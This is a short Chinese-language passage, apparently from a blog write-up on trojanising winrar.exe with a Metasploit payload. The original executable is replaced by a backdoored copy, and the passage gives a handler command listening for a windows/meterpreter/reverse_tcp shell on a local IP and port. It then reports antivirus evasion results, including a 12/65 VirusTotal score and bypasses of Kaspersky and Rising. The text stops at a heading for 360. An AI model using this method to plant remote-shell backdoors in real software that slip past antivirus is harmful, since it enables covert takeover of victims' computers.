 ![image-20220527185214043](./images/202205271852105.png)

全程自动化生成，最终的生成文件会替换原来的`winrar.exe`。

通过对比可发现程序稍微变大了

在msf中使用`handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp`进行监听

360和火绒均可查杀（原po执行360和火绒均可免杀，msf正常上线）。

在virustotal.com上查杀率为12/65，Bypass了卡巴、瑞星（原po为7/69，卡巴、瑞星、微软三个都没bypass）。

360：
